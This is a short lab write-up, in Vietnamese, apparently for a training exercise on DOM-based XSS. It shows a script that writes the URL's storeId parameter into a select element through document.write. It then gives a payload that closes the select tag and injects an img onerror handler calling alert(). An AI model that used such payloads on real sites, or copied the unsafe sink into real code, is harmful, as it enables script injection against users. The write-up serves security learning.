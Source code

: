 # DOM XSS in document.write sink using source location.search inside a select element

# 1. Vulnerable

View-source:

```
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

![id.png](images/id.png)

Đoạn mã script trên sẽ mở thẻ `<select name="storeId">` rồi lấy trên url phần `storeId` và lưu vào biến `store`và sử dụng doc.write để chạy đọan

```
<option selected>'+store+'</option>
```

Vậy `storeId` ta có thể kiểm soát được trên url

# 2. Exploit

Như đã biết thì phần đầu tiên của chương trình đã mở thẻ `select` là thẻ bao các thẻ phía sau nên ta sẽ đóng thẻ `select` rồi mới đến đoạn `script`

Payload

```
/product?productId=1&storeId=</select><img+src=x+onerror=alert()>
```

![solved.png](images/solved.png)